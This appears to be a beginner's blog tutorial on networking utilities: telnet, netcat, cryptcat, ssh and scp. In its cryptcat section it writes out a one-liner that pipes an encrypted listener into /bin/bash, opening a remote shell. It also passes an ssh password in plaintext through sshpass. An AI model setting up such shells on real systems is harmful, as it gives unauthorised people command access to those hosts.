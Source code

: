 ```yaml
---
layout: post
published: false
title: Networking tools and utilities 2.1
---
```

## Usage of Telnet,Netcat,Socat,Cryptcat,SSH,SCP

## Introduction

I am going to explain these tools with examples, these tools provide interactive communication with another host.
Every tool has there different advantages, check their manual using man command for more.

## Telnet
Telnet is a network protocol works on port 23, it provides command-line interface to communicate with another host

Mostly it used in port testing, we can use telnet for banner grabbing, i will cover it later in this blog series.

To connect to host/server using telnet
~~~
# telnet -h

# telnet <hostname> <port>
~~~
example
~~~
# telnet 198.137.0.4 1234
~~~
## Netcat/nc

Its most useful utility for our use, It can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports.
And its better than telnet for communication to another device.
~~~
# nc -h
~~~

Lets start a netcat listner in terminal 
~~~
# nc -lvvp 1337
nc -nlvvp 1337
Listening on 0.0.0.0 1337
~~~
Now its listening connection on host ip and 1337 port, lets connect it using another host or you can use another terminal tab just for satisfaction.
~~~
usage: nc <hostip> <port>
~~~
~~~
# nc 192.168.43.209 1337
~~~

try to chat with another host using terminal


## Cryptcat

The formula behind crypcat is: cryptcat = netcat + encryption.
Its basically a netcat variant which provide encryption over TCP/UDP communication with another host...


Let's play with it..............
~~~
# cryptcat -h
~~~
start cryptcat listner
~~~
# cryptcat -lv -p 1337
listening on [any] 1337 ...
~~~

Ok so its listning on 1337 lets connect using another terminal or host.
~~~
# cryptcat 192.168.43.209 1337
~~~
Now chat with another host

We can set -k perameter to make our communication password protected

Ok let's try encrypted reverse shell using cryptcat 
~~~

# cryptcat -k hacker -l -p 1337 0<myfifo | /bin/bash 1>myfifo

~~~

Now connect with it using another host

~~~
# cryptcat -k hacker 192.168.43.209 1337
~~~

You can excute commands on another host side and 

## SSH and SCP

SSH (Secure Shell) is a cryptographic network protocol for operating network services securely over an unsecured network. Typical applications include remote command-line, login, and remote command execution, but any network service can be secured with SSH.
We use it moslty to provide remote access to another host securley over unencrypted network

SCP(Secure Copy Protocol) copies files between hosts on a network, sshs for data transfer, and uses the same authentication and provides the same security as ssh.
 
_**To connect a ssh client with a host which is running sshd (ssh server) .**_

~~~
# ssh -h
ssh user@host (and enter password for connection)
~~~
example:
~~~
# ssh hacker@10.10.10.134
~~~
and enter password, or we can include ssh password also in same line

~~~
# sshpass -p "hahanoob" ssh hacker@10.10.10.134
~~~

We can also run GUI based commands from Remote SSH. How??

~~~

# ssh hacker@10.10.10.134 "DISPLAY=:0 no hup chrome"
~~~
or 
~~~
# ssh -X  hacker@10.10.10.134  firefox
~~~

To copy files over ssh we have to use scp
~~~
# scp -h
scp <filename> user@host:/filepath
~~~
example

~~~
# scp badguy.txt hacker@10.10.10.134:/home/mrw0r57
~~~

To download file 

~~~
# scp hacker@10.10.10.134:/home/mrw0r57/badguy.txt /home/myuser
~~~

## Conclusion

_**Learn these utilities by practical, we are going to use them in upcoming blog posts**_